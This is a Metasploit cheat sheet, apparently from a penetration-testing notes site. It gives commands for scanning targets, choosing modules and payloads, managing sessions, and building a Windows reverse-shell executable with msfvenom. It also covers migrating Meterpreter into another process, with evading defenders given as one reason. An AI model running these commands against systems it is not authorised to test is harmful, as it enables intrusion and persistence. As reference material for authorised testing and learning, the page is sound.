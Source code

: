 ```yaml
---
title: "Metasploit"
weight: 5
description: ""
---
```


# Metasploit

## Metasploit

```sh
# Start the database service & create and initialize the MSF database
msfdb init

# Enable the database service
sudo systemctl enable postgresql

# Verify database connectivity
db_status

# Create workspace
workspace -a target1

# Scan with nmap
db_nmap -A <TARGET1>

# List of all discovered hosts up
hosts

# Display discovered services
services
services -p 5000 # specific port

# Search all SMB auxiliary modules
search type:auxiliary smb
search apache

# Activate a module
use 5

# Get information about the currently activated module
info

# Display the options of a module
show options

# Get a list of all payloads that are compatible with the currently selected module
show payloads

# set & unset an option
set <OPTION> <VALUE>
unset <OPTION>

# Set a payload
set payload payload/linux/x64/shell_reverse_tcp

# Launch a module
run

# Show vulnerabilities that Metasploit automatically detected based on the results of the executed module
vulns

# Show valid credentials we gathered
creds

# Background session
CTRL + Z

# List all active sessions
sessions -l

# Interact with a session
sessions -i 2
```
---

## msfvenom
```sh
# List payloads
msfvenom -l payloads --platform windows --arch x64

# Create payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<IP> LPORT=<LPORT> -f exe -o file.exe
```

{{< hint style=notes >}}
**Note**: To handle a staged payload don't use netcat. Use Metasploit’s `multi/handler` instead.
{{< /hint >}}

---

## Migrate (meterpreter)

Reason to migrate:
When a host is compromised, the Meterpreter payload runs inside the process used for exploitation. 
* **Stability**: If that process is closed, your access is lost
* **Avoid detection**: The process name may also appear suspicious to defenders
* **Compatibility**: The payload may be 64-bit, but the session is on an 86-bit OS

To avoid this, we can use `migrate` to move the payload to a more stable or inconspicuous process.

{{< hint style=notes >}}
**Note**: Migration is only allowed to processes with the same or lower integrity and privilege level.
{{< /hint >}}

```sh
# Show list process
meterpreter > ps

# Migrate
meterpreter > migrate 8052
```

If no suitable process is available for migration, we can use the execute command to create a new process and run the Meterpreter payload within it by specifying a desired command or program.

```sh
# Create a hidden process
meterpreter > execute -H -f notepad

# Migrate
meterpreter > migrate 8052
```

